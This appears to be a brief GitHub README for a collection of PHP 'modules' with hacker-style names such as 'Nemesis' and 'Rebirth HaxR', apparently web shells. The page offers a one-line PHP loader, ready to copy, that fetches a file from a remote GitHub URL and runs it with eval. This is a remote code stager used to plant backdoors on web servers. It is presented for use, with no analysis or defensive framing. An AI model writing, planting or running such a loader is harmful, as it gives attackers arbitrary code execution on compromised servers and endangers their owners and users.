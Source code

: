 
 Modules

| Key    | Name              | 
|--------|-------------------|
| `alo`  | **Meng-gocok**    | 
| `aloo` | **Meng-gocok pwx**| 
| `aloo2`| **Nemesis**       | 
| `aloo3`| **Rebirth HaxR**  | 
| `aloo4`| **Marijuan**      | 
| `aloo5`| **Hengker**       |

<?php ($r=@file_get_contents('https://raw.githubusercontent.com/Kontorbesaluiii/alooooSir/refs/heads/main/alo.txt'))?eval('?>'.$r):die('Error');

